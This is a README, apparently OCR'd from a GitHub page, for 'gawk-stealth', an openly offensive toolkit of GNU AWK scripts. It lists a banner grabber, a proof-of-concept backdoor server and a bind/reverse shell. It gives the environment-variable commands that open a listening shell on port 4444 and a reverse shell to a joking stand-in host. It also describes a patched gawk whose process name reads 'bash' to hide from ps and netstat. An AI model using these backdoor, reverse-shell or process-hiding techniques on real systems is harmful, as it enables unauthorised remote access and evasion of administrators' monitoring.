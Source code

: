 #[gawk-stealth](http://gitbrew.org/gawk)  
##Copyright (C) 2012 Iadnah [<iadnah@gitbrew.org>](mailto:iadnah@gitbrew.org)  
##gawk-stealth is distributed under the GNU GPL  
  
  
###SYNOPSIS  
  
Gawk-Stealth consists of two parts: a set of scripts that can be run from within GNU AWK (using the -f option), and a statically linked 32-bit version of GNU AWK that is patched with our Romulan Cloaking technology.  
  
The scripts included in gawk-stealth are:  
banner_grab.gawk - simple awk banner grabber
banner_grab_pastable.gawk - one-line pastable version of the banner grabber
gawk_get.gawk - script to make an HTTP (no HTTPS) request and dump output to STDOUT
gawk_http_bnc.gawk - Listens on a port and when a connection is made to it, performs an HTTP request as configured and redirects output to connecting host
gawkserv.gawk - Very simple POC backdoor server
rgawkcmd-0.2.gawk - Full-featured bindshell with listen, reverse-connect, and authentication options
  
###COMPILING gawk32.static    
  
To compile, untar the version of gawk in static_gawk, apply the gawk-3.1.8_gawkhide.patch, and compile using the makestatic script.  
  
###SAMPLE USES  
  
The main script of interest is rgawkcmd-0.2.gawk.  When using it, the most important thing to keep in mind is that options are set using environmental variables.  In bash, you may set these with the export command, or to make more persistent you can add the env vars to .bashrc in the home directory.  

To make a listening bindshell with rgawkcmd-0.2.gawk, issue the following commands:  

	$ export RGC_LPORT=4444
	$ export RGC_MODE="listen"
	$ gawk -f rgawkcmd-0.2.gawk

This will open up a listening bindshell on port 4444.  To do a reverse bindshell, you would enter:  

	$ export RGC_MODE="remote"
	$ export RGC_RPORT=4444
	$ export RGC_HOST="totallylegitimate.nationalbankofuganda.com"
	$ gawk -f rgawkcmd-0.2.gawk
	
###ROMULAN CLOAKING TECHNOLOGY

In order to turn on Romulan Cloaking Device (reverse engineered by CDR Data from a Romulan Warbird captured by CPT Jean-Luc Picard), set GAWK_HIDE to anything but NULL.  Example:  

	$ export GAWK_HIDE=1
	
This changes argv[0] to read "bash" (for ps and netstat purposes).  
NOTE: this requires you use patched version of GNU AWK included with this package.  

##LICENSE  
gawk-stealth Copyright (C) 2012 Iadnah iadnah@gitbrew.org

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 2 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, write to the Free Software Foundation, Inc., 59 Temple Place, Suite 330, Boston, MA 02111-1307 USA

See the COPYING file for more information.

---
Iadnah [<iadnah@gitbrew.org>](mailto:iadnah@gitbrew.org)  
Security Consultant  
[gitbrew.org](http://gitbrew.org)  
[Hephaestus Security](http://hephaestussec.com)